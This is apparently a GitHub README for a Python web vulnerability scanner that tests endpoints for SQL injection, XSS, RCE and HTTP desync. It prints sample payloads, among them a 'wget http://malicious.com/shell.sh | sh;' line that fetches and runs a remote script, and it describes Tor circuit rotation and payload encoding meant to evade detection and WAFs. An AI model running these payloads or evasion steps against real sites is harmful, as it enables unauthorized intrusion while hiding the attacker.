 # Advanced Web Scanner

This Python script scans web endpoints for vulnerabilities such as SQL Injection (SQLi), Cross-Site Scripting (XSS), Remote Code Execution (RCE), and HTTP Desynchronization (HTTP Desync). It uses a combination of different payloads, encoding techniques, and Tor for anonymity while testing the vulnerabilities.

## Features

- **Tor-based Anonymity**: The script routes all traffic through the Tor network to maintain anonymity.
- **Multiple Payloads**: A variety of payloads are used for different types of vulnerabilities, including evasion techniques.
- **Error Handling**: The script automatically retries failed requests and renews the Tor circuit to avoid detection and rate limiting.
- **Logging**: The script logs vulnerabilities found into separate files by type.

## Requirements

- Python 3.x
- [Tor](https://www.torproject.org/download/) (Tor client must be running locally on your machine)
- `requests` library
- `stem` library (Python Tor controller)
- `websocket-client` library

Install the required dependencies:

```bash
pip install requests stem websocket-client
```
## Configuration

Before running the script, make sure that the following configurations are set correctly:

    Tor Configuration:
        TOR_SOCKS5_PROXY: Set to the SOCKS5 proxy used by Tor (usually socks5h://127.0.0.1:9050).
        Tor Control Port: Ensure the Tor control port (9051 by default) is accessible.
        Tor Password: Set the password for authenticating with the Tor control port (you may need to configure this in the torrc file).

TOR_PASSWORD = "Passw0rd"  # Change this to your Tor password

## Payloads

The script uses a set of payloads for different vulnerability types:

    SQL Injection (SQLi): Payloads like ' OR '1'='1' -- to test SQL injection vulnerabilities.
    Cross-Site Scripting (XSS): Payloads like <img src='x' onerror='alert(1)'> to test XSS vulnerabilities.
    Remote Code Execution (RCE): Payloads like wget http://malicious.com/shell.sh | sh; to test RCE vulnerabilities.
    HTTP Desynchronization (Desync): Payloads like 0\r\n\r\nTRACE / HTTP/1.1\r\nHost: vulnerable.site\r\n to test HTTP desync vulnerabilities.

## How It Works

    Tor Circuit: The script uses Tor for anonymity, automatically renewing the Tor circuit after every 5 requests.
    Scanning: The script reads a list of endpoints from endpoints.txt and tests each endpoint with different types of payloads.
    Encoding: Payloads are encoded in various formats (default, URL encoding, Base64, and Hex) to evade detection mechanisms such as Web Application Firewalls (WAFs).
    Retries: If a request fails due to connection issues, the script retries a few times with random delays.
    WebSocket Support: Some payloads, like HTTP Desync, are sent via WebSocket for more advanced testing.
    Logging: If vulnerabilities are found, they are logged into separate files for each vulnerability type: res_sqli.txt, res_xss.txt, res_rce.txt, and res_http_desync.txt.

## How to Run

Ensure Tor is running on your system. You can start Tor with the following command (assuming Tor is installed):

```bash
sudo systemctl start tor
```

Make sure you have the endpoints.txt file with a list of endpoints you want to scan. Each endpoint should be on a new line:
```txt
http://example.com
https://vulnerable-site.com
```
Run the Python script:

    python Advanced_ws.py

The script will start scanning the endpoints and log the results into corresponding files.

Example Output

If the script finds any vulnerabilities, they will be logged in the following format:
```txt
[Vulnerability Type] Vulnerable: http://example.com?page=1' OR '1'='1' --
Curl: curl -X GET 'http://example.com?page=1%27%20OR%20%271%27%3D%271' --data ''
```
The results will be saved in the following files:

    res_sqli.txt for SQLi vulnerabilities
    res_xss.txt for XSS vulnerabilities
    res_rce.txt for RCE vulnerabilities
    res_http_desync.txt for HTTP Desync vulnerabilities

## Renewing Tor Circuit

To avoid detection, the script automatically renews the Tor circuit after every 5 requests by signaling Tor with the NEWNYM signal. This ensures that your IP address is changed frequently, maintaining anonymity.

## License

This script is provided as-is with no warranty under MIT license. Feel free to use and modify it according to your needs. For educational purposes only. Ensure you have explicit permission before testing any website for vulnerabilities.

## Disclaimer

This script is intended for educational purposes and responsible security research only. Unauthorized use of this script to attack or exploit systems without explicit permission is illegal and unethical. Always obtain permission from the website owner or system administrator before performing security tests.
